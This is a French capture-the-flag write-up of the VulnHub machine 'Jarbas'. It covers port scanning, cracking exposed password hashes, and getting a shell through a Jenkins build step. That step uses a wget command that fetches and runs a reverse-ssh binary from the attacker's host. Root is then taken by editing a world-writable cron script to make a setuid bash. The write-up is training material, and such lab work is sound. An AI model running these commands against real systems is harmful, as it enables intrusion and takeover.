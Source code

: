 ```yaml
---
title: "Solution du CTF Jarbas de VulnHub"
tags: [CTF,VulnHub]
---
```


[Jarbas](https://www.vulnhub.com/entry/jarbas-1,232/), un CTF proposé sur VulnHub, est un peu le cousin germain de [Jeeves de HackTheBox]({% link _posts/2018-05-24-Solution-du-CTF-Jeeves-de-HackTheBox.md %}).

Le scénario est d'ailleurs quasi identique : sur le port 80 on trouve une copie de l'ancien moteur de recherche `Ask.com`.

```
Nmap scan report for 192.168.56.70
Host is up (0.00025s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28bc493c6c4329573cb8859a6d3c163f (RSA)
|   256 a01b902cda79eb8f3b14debb3fd2e73f (ECDSA)
|_  256 57720854b756ffc3e6166f97cfae7f76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Jarbas - O Seu Mordomo Virtual!
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```

Sur le port 80 on nous offre directement des hashs pourtant ce n'est pas encore noël.

```
Creds encrypted in a safe way!

tiago:5978a63b4654c73c60fa24f836386d87
trindade:f463f63616cb3f1e81ce46b39f882fd5
eder:9b38e2b1e8b12f426b0d208a7ab6cb98
```

J'ai envoyé tout ça sur crackstation qui a trouvé respectivement :

```
italia99
marianna
vipsu
```

Sur le port 8080 se trouve un Jenkins et les identifiants `eder` / `vipsu` permettent de s'y.

Du coup je ne m'attarde pas trop sur les étapes à suivre car elles sont déjà décrites dans le `Jeeves` : il faut créer un nouveau projet, aller dans sa configuration puis dans l'onglet `Build` puis sur la partie `Exécuter un script shell`.

Là on saisit de quoi obtenir un shell. Comme les ports ne sont pas filtrés sur la VM je rappatrie et fait tourner un reverse-ssh qui fonctionnera comme un serveur SSH mais sur le port 31337.

```bash
cd /tmp;wget http://192.168.56.1/reverse-sshx64;chmod +x reverse-sshx64;nohup ./reverse-sshx64
```

Pour m'y connecter j'utilise le client SSH de mon OS. Il y a un mot de passe par défaut (`letmeinbrudipls`) et j'obtiens un accès avec le compte `jenkins`.

Il y a une entrée dans la crontab :

`*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1`

Et ce script qui tourne en root est word-writable, quelle aubaine :p 

`-rwxrwxrwx. 1 root root 50 Apr  1  2018 /etc/script/CleaningScript.sh`

Je rajoute des commandes dedans pour copier `bash` vers `/tmp` et le rendre setuid root. Après quelques minutes c'est prêt, plus qu'à déguster :

```bash
bash-4.2$ /tmp/bash -p
bash-4.2# id
uid=997(jenkins) gid=995(jenkins) euid=0(root) groups=995(jenkins) context=system_u:system_r:initrc_t:s0
bash-4.2# cd /root
bash-4.2# ls
flag.txt
bash-4.2# cat flag.txt
Hey!

Congratulations! You got it! I always knew you could do it!
This challenge was very easy, huh? =)

Thanks for appreciating this machine.

@tiagotvrs
```

Forcément, avec ma connaissance de la version de HTB, ce CTF était du tout préparé, plus qu'à enfourner au micro-ondes !

